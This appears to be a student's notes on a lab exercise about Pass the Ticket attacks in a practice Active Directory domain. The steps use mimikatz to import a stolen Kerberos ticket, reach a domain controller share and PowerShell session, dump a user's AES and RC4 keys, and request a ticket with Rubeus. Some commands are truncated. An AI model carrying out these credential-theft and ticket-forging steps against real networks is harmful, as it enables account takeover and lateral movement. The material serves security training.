 Use john's TGT to perform a Pass the Ticket attack and retrieve the flag from the shared folder \DC01.inlanefreight.htb\john

1. run mimikatz and pass john's kirbi file.
2. exit mimikatz and access \\\DC01.inlanefreight.htb\john
3. read the flag

Use john's TGT to perform a Pass the Ticket attack and connect to the DC01 using PowerShell Remoting. Read the flag from C:\john\john.txt

1. using the same session from previos method and enter the ps session of DC01\
   `Enter-PSSession -ComputerName DC0`
2. read the flag C:\john\john.txt

### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

**run mimikatz to get the aes256 and rc4 keys**

```
Authentication Id : 0 ; 370248 (00000000:0005a648)
Session           : Service from 0
User Name         : john
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/27/2023 12:23:43 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1108

         * Username : john
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
         * Key List :
           aes256_hmac       9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
           rc4_hmac_nt       c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_old      c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_md4           c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_nt_exp   c4b0e1b10c7ce2c4723b4e2407ef81a2
           rc4_hmac_old_exp  c4b0e1b10c7ce2c4723b4e2407ef81a2
```

```
.\Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
```





